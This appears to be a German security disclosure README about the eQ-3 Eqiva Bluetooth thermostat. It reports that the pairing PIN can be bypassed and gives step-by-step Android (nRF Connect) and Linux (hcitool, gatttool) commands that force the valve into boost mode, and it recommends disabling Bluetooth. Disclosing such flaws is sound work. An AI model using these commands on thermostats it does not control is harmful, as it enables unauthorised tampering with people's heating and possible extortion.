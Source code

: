 # Sicherheitslücke in Thermostat eQ-3 Eqiva Bluetooth

Bei dem [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) handelt es sich um einen smarten Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt, der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature, damit nur jemand den Thermostat steuern kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen - ein Smartphone ist ausreichend - an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1]) mit einfachsten Mitteln fern- und damit fremdgesteuert werden kann.**

Angriffsmotive reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag gezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

IMHO: _Wie dieses Gerät mit dieser gravierenden Sicherheitslücke Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel._

## Android

### 1\. nRF Connect installieren

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Mit Thermostat verbinden

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. BLE Characteristic auswählen

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Boostmodus aktivieren (Ventil wird voll geöffnet)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (getestet mit Raspberry Pi 3 und Raspbian)

### 1\. Nach BLE Geräten suchen

`hcitool lescan`

![HCI Tool Scan Example](/img/01-hcitool-scan.png)

Gerät mit Name "CC-RT-BLE" ist der Thermostat.

### 2\. Boostmodus aktivieren (Ventil wird voll geöffnet)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Entsprechend die MAC-Adresse austauschen._

## Weitere Informationen unter:

- [eq-3 Eqiva API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

- [FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

## Referenzen:

[1] - <https://de.wikipedia.org/wiki/Bluetooth_Low_Energy>
